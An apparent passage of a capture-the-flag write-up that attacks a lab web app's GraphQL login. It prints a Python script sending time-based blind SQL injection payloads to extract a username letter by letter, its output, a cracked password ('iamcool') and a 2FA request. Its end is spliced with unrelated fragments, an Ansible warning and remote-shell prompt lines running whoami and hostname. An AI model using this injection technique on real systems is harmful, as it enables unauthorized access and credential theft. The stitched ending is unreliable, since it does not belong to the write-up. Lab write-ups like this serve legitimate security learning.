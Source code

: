 ```python
        burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
        burp0_json={"query": "mutation {\n    LoginUser(username: \"-12' or (select sleep(2) from dual where (SELECT username from users ) like '"+res+char+"%')-- \", password: \"a\"){\n        message,\n        token    \n}\n}"}
        #print(burp0_json)
        start = time.perf_counter()
        session.post(burp0_url, headers=burp0_headers, json=burp0_json)
        request_time = time.perf_counter() - start
        #print("[Char: ]"+char+" "+str(request_time))
        if request_time > 2:
            res+=char
            print("result: "+res)
            break
```

We run the script and we’re able to retrieve the username!

```bash
hcue@pjsk:/tmp » python3 sql.py
result: J
result: Jo
result: Joh
result: John
```

Just for the sake of the length of the writeup, we can use similar script to retrieve the MD5 of John user and crack it with [Crackstation](https://crackstation.net/) to get `iamcool`.

Logging in with user `John:iamcool` Works and we’re greeted with 2FA.

![A screenshot of OTP verification form. OTP will be sent through email, and will expire in 2 minutes](/assets/img/stack-the-flags-2022/otp-web.png)

I tried to provide a random OTP to check the request and it’s a graphql query as well:

```graphql
{
 "query":{\n    verify2FA{otp: \"1234\"}{\n     message,\n   token \n}\n}"
}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname